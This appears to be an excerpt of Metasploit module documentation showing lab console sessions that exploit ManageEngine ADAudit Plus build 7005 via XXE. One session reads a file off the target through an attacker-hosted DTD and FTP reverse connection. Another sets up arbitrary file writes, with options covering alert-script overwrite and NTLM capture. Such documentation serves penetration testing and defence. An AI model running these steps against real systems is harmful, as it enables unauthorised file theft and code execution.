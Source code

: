 ```

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Getting contents for /users/karen/secret.txt via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/BhCFXqLZayD.dtd
[+] Received the following contents for /users/karen/secret.txt:
Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you

```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2 - WRITE_FILE
```
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set action WRITE_FILE 
action => WRITE_FILE
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set FILE_OR_DIR_PATH /users/karen/pwned.txt
FILE_OR_DIR_PATH => /users/karen/pwned.txt
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set use_msf_payload false
use_msf_payload => false
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set custom_payload wynter was here
custom_payload => wynter was here
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > options 

Module options (auxiliary/admin/http/manageengine_adaudit_plus_file_read_write):

   Name              Current Setting         Required  Description
   ----              ---------------         --------  -----------
   ALERT_SCRIPT                              no        Name of an existing PowerShell script in /alert_scripts to overwrite when using OVERWRITE_ALERT_SCRIPT
   CUSTOM_PAYLOAD    wynter was here         no        Custom payload to use for WRITE_FILE and OVERWRITE_ALERT_SCRIPT. Ignored if USE_MSF_PAYLOAD is true
   DOMAIN                                    no        Active Directory domain that the target monitors, Required if XXE VECTOR is CVE-2022-28219
   FILE_OR_DIR_PATH  /users/karen/pwned.txt  no        Path to read or write to. For read operations this should contain forward slashes and exclude the drive
   LHOST                                     no        The local IP address to use for write operations with USE_MSF_PAYLOAD, or for receiving NTLM auth requests (TRIGGER_NTLM_AUTH
                                                       )
   LOAD_MODULES                              no        A list of powershell modules separated by a comma to download over the web
   LPORT             4444                    no        The listening port to use when using USE_MSF_PAYLOAD
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.91.250          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8081                    yes       The target port (TCP)
   SRVHOST           192.168.91.195          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all ad
                                                       dresses.
   SRVPORT           8080                    yes       The local port to listen on.
   SRVPORT_FTP       2121                    yes       Port for FTP reverse connection
   SRVPORT_HTTP2     8888                    yes       Port for additional HTTP reverse connections
   SSL               false                   no        Negotiate SSL/TLS for outgoing connections
```